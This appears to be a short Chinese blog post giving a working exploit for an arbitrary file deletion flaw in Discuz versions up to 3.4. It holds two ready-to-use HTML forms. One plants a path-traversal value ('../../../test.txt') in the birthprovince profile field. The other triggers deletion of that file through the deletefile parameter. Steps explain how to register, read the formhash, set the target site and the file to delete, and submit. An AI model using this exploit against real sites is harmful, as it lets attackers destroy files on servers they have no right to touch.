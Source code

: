 ```yaml
---
title: "discuz 任意文件删除"
date: 2018-03-19T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


漏洞影响范围 discuz <= 3.4

<!--more-->

**exp**

```
<form action="http://www.xxx.com/home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
<input type="text"name="birthprovince" id="text" value="../../../test.txt" />
<input type="text"name="formhash" value="de746a38"/></p>
<input type="text"name="profilesubmit" value="1"/></p>
<input type="submit"value="Submit" />
</form>

<br />

<form action="http://www.xxx.com/home.php?mod=spacecp&ac=profile&op=base&deletefile[birthprovince]=aaaaaa" method="POST" enctype="multipart/form-data">
<input type="file"name="birthprovince" id="file" />
<input type="text"name="formhash" value="de746a38"/></p>
<input type="text"name="profilesubmit" value="1"/></p>
<input type="submit"value="Submit" />
</form>
```

首先在前台注册账号

个人中心 修改个人资料

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/19/1521461557.jpg)

右键查看 formhash

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/19/1521461560.jpg)

修改 exp 中的网址

填上要删除的文件 formhash 选择文件

两个 submit 分别提交

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/19/1521461562.jpg)